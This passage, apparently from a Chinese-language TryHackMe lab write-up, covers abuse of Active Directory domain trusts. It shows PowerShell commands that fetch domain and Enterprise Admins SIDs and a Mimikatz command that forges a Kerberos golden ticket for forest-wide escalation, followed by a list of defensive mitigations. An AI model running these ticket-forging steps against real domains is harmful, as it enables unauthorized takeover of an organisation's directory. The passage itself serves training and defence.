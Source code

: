 若要恢复这些 SID，我们可以使用 AD-RSAT Powershell cmdlet。我们可以使用以下命令恢复子域控制器的 SID：

    Get-ADComputer -Identity "THMDC"
    Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

### 利用域信任

我们终于拥有了创建伪造TGT所需的所有信息。我们将使用Mimikatz来生成这张黄金票。该命令将如下所示：

    mimikatz # privilege::debug
    mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<DC_SID> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt

---

利用AD需要时间来掌握，所使用的技术将在很大程度上取决于被攻击的AD结构的配置。要了解的最重要的事情是该过程是循环的。在大多数情况下，我们将无法运行单个引导至根漏洞来为我们提供 DA 访问权限。最好的方法是执行进一步访问的利用，然后使用已获得的访问权限再次执行枚举，从这个新位置寻找可能的其他攻击路径。

### 缓解措施

AD 利用（如 AD 枚举）非常难以防御。这是因为可能被视为可被利用的错误配置具有实际的业务案例。但是，我们可以做一些事情来防止利用：

    1.我们需要确保没有配置破坏我们的分层模型。较低层中的帐户不应能够与较高层中的资源进行交互。此外，较高层的帐户不应登录到较低层中的资源。
    2.执行权限委派时应遵循最小特权原则。此外，权限委派应遵循分层模型，确保较低层的对象无法更改较高层的对象。
    3.应强制实施 SMB 签名，而不仅仅是启用。这将防止凭据中继尝试。
    4.AD 对象及其配置并不是唯一的利用途径。AD 服务（如 AD CS）也应被视为攻击面的一部分并受到保护。
    5.我们需要实施足够的安全控制来保护子域中的第 0 层基础结构和帐户，因为其中一个的泄露可能会导致整个林的入侵。

随着我们对AD的开发完成，下一步是挖掘我们的根源，以确保蓝队不能简单地清除我们的访问权限。这将在隔壁的房间进行介绍。
